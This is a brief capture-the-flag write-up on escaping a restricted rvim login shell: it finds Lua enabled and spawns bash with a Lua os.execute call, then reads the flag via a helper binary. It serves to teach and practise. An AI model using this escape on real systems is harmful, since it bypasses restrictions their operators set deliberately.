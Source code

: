# vimjail writeup

Not surprisingly, we're dropped into vim when logging in over ssh.
The question is, how do we get out of vim?

Normally, you can execute commands using `:!<command>`. Let's try it by running
`:!ls` and see if we get any output back.

`E145: Shell commands not allowed in rvim` :(

Now we know that the login shell is, in fact, `rvim`, a restricted version of
vim where running shell commands is not allowed.

There is another way to run shell commands in vim, though. We can try to use one
of the scripting languages that vim supports: python, ruby, and lua.

To see if an interpreter is enabled in vim, we can run `:echo has("<language>")`

* `:echo has("python2") => 0`
* `:echo has("python3") => 0`
* `:echo has("ruby") => 0`
* `:echo has("lua") => 1`

Score! We can run LUA inside rvim! To spawn a shell with LUA, we run:
`:lua os.execute("/bin/bash")`. Run `reset` to fix the terminal.

From the task description, we know that the `flag` user has the flag.
```
$ cd /home/flag
$ ls
flag_reader  flag.txt
$ cat flag.txt
cat: flag.txt: Permission denied
$ ./flag_reader
TG18{heres_your_get_out_of_vim_free_card}
```
